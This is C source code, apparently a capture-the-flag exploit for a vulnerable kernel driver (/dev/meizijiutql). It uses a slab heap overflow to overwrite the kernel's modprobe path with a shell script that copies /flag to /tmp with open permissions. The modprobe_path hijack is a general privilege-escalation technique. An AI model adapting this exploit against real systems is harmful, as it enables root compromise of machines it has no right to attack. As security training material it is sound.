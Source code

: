 ```c
void create_slab(int fd, unsigned long long size) {
    ioctl(fd, CREATE, size);
}

void show(int fd) {
    ioctl(fd, SHOW, NULL);
}

void delete(int fd){
    ioctl(fd, DELETE, NULL);
}

int main(void) {
    system("echo -ne '#!/bin/sh\n/bin/cp /flag /tmp/flag\n/bin/chmod 777 /tmp/flag' > /tmp/getflag.sh");
    system("chmod +x /tmp/getflag.sh");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/ll");
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    int fd = open("/dev/meizijiutql", O_RDWR);
    char *buf = malloc(0x1000);

    memset(buf, 'a', 0x1000);

    create_slab(fd, 0x80);

    write(fd, buf, 0x60);

    show(fd);
    show(fd);
    show(fd);
    show(fd);
    //getchar();

    char *modprobe_addr = (char *)malloc(0x10);

    create_slab(fd, 0x400);

    memset(modprobe_addr, '\x00', 0x10);
    memset(buf, '\x00', 0x1000);
    memset(buf, 'a', 0x400);

    printf("Please input modprobe_addr:");

    read(0, modprobe_addr, 8);

    strcat(buf, modprobe_addr);

    write(fd, buf, 0x408);

    create_slab(fd, 0x400);
    write(fd, "/tmp/getflag.sh\x00", 17);
    create_slab(fd, 0x400);
    write(fd, "/tmp/getflag.sh\x00", 17);

    close(fd);
    return 0;
}

```

